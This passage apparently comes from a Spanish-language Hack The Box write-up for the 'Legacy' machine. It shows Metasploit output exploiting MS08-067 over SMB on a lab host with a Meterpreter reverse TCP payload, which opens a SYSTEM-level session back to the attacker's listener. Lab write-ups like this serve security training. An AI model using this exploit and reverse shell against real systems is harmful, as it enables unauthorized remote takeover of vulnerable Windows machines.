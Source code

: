 ``` text
   RHOSTS   10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.23      yes       The listen address (an interface may be specified)
   LPORT     3002             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) >
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.23:3002
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.14.23:3002 -> 10.10.10.4:1030) at 2019-10-06 01:45:42 -0500

meterpreter >
```

Así de rápido y sencillo, tenemos un meterpreter ejecutándose del lado remoto hacia nuestra maquina.

``` text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
